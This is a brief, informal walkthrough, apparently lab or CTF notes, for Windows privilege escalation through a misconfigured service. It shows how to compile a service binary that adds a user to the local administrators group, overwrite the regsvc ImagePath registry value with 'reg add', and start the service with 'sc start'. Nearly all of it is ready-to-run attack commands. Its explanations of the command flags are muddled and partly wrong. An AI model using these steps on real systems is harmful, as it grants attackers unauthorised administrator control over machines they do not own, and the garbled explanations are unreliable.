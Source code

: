 For exploitation get the both source file named windows_dll.c  and windows_service.c and 

open windows_service.c and in the command system add
`cmd.exe /k net localgroup administrators user /add` 
and just compile the file using here the name of user is "user" but replace this with the "user-name" of the windows machine you want to escalate

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe `

then download it in windows machine in `C:\temp`
then in cmd type 
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`

what it does is adding to registry service `\v`  here stands for what value to be added in the subkey of registy (value name ) in our case image path 

(image path) -> registry 
`\t`   type 
`reg_expand` -> string to run 
`\f` run only no prompts f
`**sc start regsvc**`key that contains the path of drivers image file

and net localgroup administrators and done